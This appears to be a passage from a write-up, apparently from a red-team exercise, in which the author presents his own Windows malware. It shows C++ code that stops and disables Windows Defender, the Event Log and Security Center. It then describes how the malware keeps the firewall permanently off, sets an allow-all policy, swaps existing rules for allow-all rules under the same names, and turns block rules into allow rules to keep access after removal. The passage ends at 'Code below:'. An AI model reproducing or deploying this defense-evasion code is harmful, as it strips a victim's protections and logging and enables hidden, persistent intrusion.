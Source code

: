 ```cpp
//Initialize Service object and shut off Windows Defender
Service WinDefender(L"WinDefender");
if (WinDefender.getSvcRunning()){
	if (!WinDefender.DoStopSvc()){
		cout << "Service stop failed" << endl;
	}
	if (!WinDefender.DoDisableSvc()){
		cout << "Service disable failed" << endl;
	}
}

//Initialize Service object and shut off Event Log
Service eventlog(L"eventlog");
if (eventlog.getSvcRunning()){
	if (!eventlog.DoStopSvc()){
		cout << "Service stop failed" << endl;
	}
	if (!eventlog.DoDisableSvc()){
		cout << "Service disable failed" << endl;
	}
}

//Initialize Service object and shut off Security Center
Service wscsvc(L"wscsvc");
if (wscsvc.getSvcRunning()){
	if (!wscsvc.DoStopSvc()){
		cout << "Service stop failed" << endl;
	}
	if (!wscsvc.DoDisableSvc()){
		cout << "Service disable failed" << endl;
	}
}
```
More info: <a href="http://msdn.microsoft.com/en-us/library/windows/desktop/bb540476(v=vs.85).aspx">http://msdn.microsoft.com/en-us/library/windows/desktop/bb540476(v=vs.85).aspx</a>

<h3>Shutting Off The Firewall</h3>
This was the original intent of this project: to mess up the firewall so bad that it would never be safe to use. Again, I took code from the MSDN site and built it into the Firewall class. Initializing a Firewall object would open the firewall for reading and editing via the COM. I could then act upon it as an object. I started my malicious intentions by obviously turning it off. I spawn off a thread in main to check if the firewall has been enabled and if it has then turn it back off, of course. Inconvenient. Additionally I set the default firewall policy to allow all incoming and outgoing traffic, so even if they do manage to get rid of my malware and turn their firewall back on I should still be able to get access. These first two actions usually raise red flags in Security Center, but that's off so nothing to worry about. To kill it even further I steal two rules, one from the in, and one from the out chains, take their names and descriptions, delete them, and replace them with allow all rules with the same name and description. The one flaw I saw in all of this is a user adding block rules; I fix this by changing all of the block rules to allow rules! Needless to say the teams that had this were in for a bad time. Code below:
